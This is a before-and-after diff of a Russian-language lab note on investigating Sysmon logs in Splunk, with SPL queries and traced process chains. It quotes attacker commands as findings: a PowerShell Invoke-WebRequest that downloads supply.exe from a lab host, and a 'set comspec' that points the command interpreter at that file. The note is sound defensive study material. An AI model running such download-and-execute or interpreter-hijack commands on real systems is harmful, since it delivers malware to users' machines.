

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Splunk. Расследование sysmon.md, 2 parts joined by grey strips. Shown at 89% size. GitHub-like rendering; pictures changed too: attachment/Pasted image 20261115221113.png (added), attachment/Pasted image 20261115221449.png (added); blank space fills up the shorter version.

```diff
--- a/Splunk. Расследование sysmon.md
+++ b/Splunk. Расследование sysmon.md
@@ -46,27 +21,3 @@ index="system_logs"
-подставила его Guid как ParentProcessGuid чтобы найти дочерние процессы. C:\Users\IEUser\AppData\Local\Temp\Sysmon.exe - запуск данной программы.
-Исследуем что делал этот процесс.
-index="system_logs"
-| spath
-| rename Event.System.EventID AS EventID Event.EventData.* AS *
-| search ProcessGuid="747F3D96-302C-6095-9704-000000001D00"
-| table UtcTime User IntegrityLevel ParentImage Image CommandLine ParentCommandLine ProcessGuid ParentProcessGuid
-| sort 0 UtcTime
-
-Судя по выводу данный процесс не запускает дочерние процессы. Пока можем сказать что подозрительной активности связанной с sysmon.exe нет.
-
-Следующий процесс с EventID=1 который вызывает подозрения:
-
-![](attachment/Pasted%20image%2020261114124155.png)
-
-cmd.exe запускает powershell с командой powershell -c INvoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\Windows\Temp\supply.exe
-- **`-c`** — сокращение от `-Command`. Говорит `powershell.exe` выполнить то, что написано дальше.
-- **`Invoke-WebRequest`** — команда PowerShell, которая отправляет веб-запрос и получает ответ сервера.
-- **`-Uri`** — параметр, задающий адрес запроса. `http://192.168.1.11:6969/supply.exe`
-Сохранение ответа в C:\Windows\Temp\supply.exe.
-![](attachment/Pasted%20image%2020261114160347.png)cmd. exe запустил ftp, тот в свою очередь
-
-
-
 
 Первое действие цепи - загрузка updater.hta и запуск через утилиту mshta.exe. Из-за своих возможностей и способности выполнять скрытые скрипты формат .hta часто используется злоумышленниками для доставки вредоносного ПО и вирусов.
 
@@ -90,3 +41,9 @@ Event ID = 15.  FileCreateStreamHash (Создание файлового пот
 - **`Invoke-WebRequest`** — команда PowerShell, которая отправляет веб-запрос и получает ответ сервера.
 - **`-Uri`** — параметр, задающий адрес запроса. `http://192.168.1.11:6969/supply.exe`
 Сохранение ответа в C:\Windows\Temp\supply.exe.
+
+![](attachment/Pasted%20image%2020261115221113.png)Event ID 11: FileCreate (Создание файла) - регистрируется создание и перезапись файлов, что позволяет выявлять создание файлов ВПО в распространенных каталогах (временные папки, папки сетевых загрузок, каталоги автозапуска);
+
+Для поиска дальнейших связанных событий применю фильтр "supply.exe".
+cmd.exe выполнила команду cmd \c set comspec=C:\windows\temp\supply.exe. Команда пытается переназначить системный путь к командному интерпретатору Windows и указать вместо него потенциально вредоносный исполняемый файл.
+![](attachment/Pasted%20image%2020261115221449.png)ftp запускает supply.exe. Тот же `cmd.exe` запустил FTP-клиент, а Sysmon указал `ftp.exe` как непосредственного родителя первого `supply.exe`
```
Also changed, not shown: other parts of Splunk. Расследование sysmon.md (+7 -32 lines).
